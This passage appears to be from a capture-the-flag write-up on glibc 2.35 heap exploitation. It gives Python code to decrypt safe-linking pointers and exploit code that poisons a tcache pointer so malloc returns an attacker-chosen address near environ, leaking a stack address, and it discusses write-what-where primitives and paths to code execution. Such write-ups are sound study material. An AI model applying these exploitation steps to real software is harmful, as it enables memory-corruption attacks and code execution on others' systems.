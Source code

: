 more information on why this works can be found [here](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/decrypt_safe_linking.c)
### decipher
```python
def decrypt_ptr(cipher):
    key = 0
    plain = ''

    cipher = cipher
    for i in range(6):
        bits = 64-12*i
        if bits < 0:
            bits = 0
        plain = ((cipher ^ key) >> bits) << bits;
        key = plain >> 12
    print hex(key)
    print hex(plain)
    print hex(cipher)

    return plain, key

```

### poisoning
calculate the pointer you would like malloc to return.
xor that pointer with the key calculated before
overwrite the pointer in the target chunk with the pointer you'd like
malloc twice, the 2nd malloc will return a pointer to the localtion of you're choosing!
```python
environ_libc = 0x1FAEC0 + libc_base #enviorn
    
log.info("environ: {}".format(hex(environ_libc)))
environ_cipher = (environ_libc-0x10) ^ key
    
edit_rune(r, '\x3d\x00', '\x3c\x00', 'A'*0x30+p64(0x21)+p64(environ_cipher))


create_rune(r, p64(36)[:-1], 0x30, "B")
#overwrite up to the leak so that puts includes it
create_rune(r, p64(35)[:-1], 0x30, "A"*3+"CHEF")
stack_leak = parse_leak(r, p64(35)[:1])
```

# defeating glibc 2.35 restrictions
glibc removes the use of `__malloc_hook` and `__free_hook`, making their use in this challenge impossible

that being said, by freeing a chunk to an unsorted bin, we still have access to a write what where
primative. This is a super powerful primative, and enables lots of other things

I did read online that you could write to the exit_function_list and get RCE that way, but I couldn't figure out
the pointer decryption. On top of that, there are very few calls to exit from the program. only can be done with
a failed read. So, I tried something else. 

